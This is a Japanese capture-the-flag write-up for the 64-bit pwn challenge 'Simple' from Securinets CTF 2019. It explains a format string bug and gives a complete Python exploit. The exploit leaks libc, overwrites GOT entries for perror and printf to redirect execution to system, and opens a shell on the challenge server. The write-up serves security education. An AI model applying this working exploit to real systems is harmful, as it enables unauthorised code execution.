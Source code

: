 # [pwn 998pts] Simple - Securinets CTF 2019 Quals
64ビットバイナリです．
libcは配布されていません．
```
$ checksec simple
[*] 'simple'
    Arch:	64 bits (little endian)
    NX:		NX enabled
    SSP:	SSP enabled (Canary found)
    RELRO:	Partial RELRO
    PIE:	PIE disabled
```
setbufして文字列を0x3fバイト読んだあと，printfでそのまま出力しています．
最後にperrorで"hemm okay"という文字列を出力しています．
典型的なFSBですが，64bitという点に注意して解きましょう．

まずperrorのGOTを書き換えてmainに変更します．
また，同時にmain関数のリターンアドレスをリークしてlibcのアドレスを特定します．
これで何度でもFSBを利用できる形になるので，2回目のFSBでprintfのGOTをsystem関数のアドレスに変更し，3回目に`/bin/sh`を渡すと`system("/bin/sh")`が呼び出されます．

```python
from ptrlib import *

elf = ELF("./simple")
libc = ELF("./libc6_2.23-0ubuntu11_amd64.so")
diff = 0xf0
sock = Socket("51.254.114.246", 4444)
#libc = ELF("/lib64/libc.so.6")
#diff = 0xf5
#sock = Socket("127.0.0.1", 4000)
_ = input()

addr_main = elf.symbol("main")
got_perror = elf.got("perror")
got_printf = elf.got("printf")

""" Stage 1 """
writes = {}
for i in range(2):
    writes[got_perror + i] = (addr_main >> (8 * i)) & 0xFF
payload = '%17$p....'
offset = 6 + 32 // 8
n = 4 + 14
for (i, addr) in enumerate(writes):
    l = (writes[addr] - n - 1) % 256 + 1
    payload += '%{}c%{}$hhn'.format(l, offset + i)
    n += l
assert len(payload) == (offset - 6) * 8
payload = str2bytes(payload)
for addr in writes:
    payload += p64(addr)
assert len(payload) < 0x40
payload = payload + b'\x00' * (0x3f - len(payload))
sock.send(payload)
addr = int(sock.recvuntil(".").rstrip(b"."), 16)
libc_base = addr - libc.symbol("__libc_start_main") - diff
addr_system = libc_base + libc.symbol("system")
dump("libc base = " + hex(libc_base))

""" Stage 2 """
writes = {}
for i in range(3):
    writes[got_printf + i] = (addr_system >> (8 * i)) & 0xFF
payload = ''
offset = 6 + 40 // 8
n = 0
for (i, addr) in enumerate(writes):
    l = (writes[addr] - n - 1) % 256 + 1
    payload += '%{}c%{}$hhn'.format(l, offset + i)
    n += l
payload += 'A' * (40 - len(payload))
assert len(payload) == (offset - 6) * 8
payload = str2bytes(payload)
for addr in writes:
    payload += p64(addr)
assert len(payload) <= 0x40
payload = payload + b'\x00' * (0x3f - len(payload))
sock.send(payload)

""" Stage 3 """
sock.send("/bin/sh\x00")
sock.interactive()
```

早くFSBをptrlibに実装しなくちゃ．

# 感想
題名の通りシンプルな問題ですね．
FSBの勉強として使えると思います．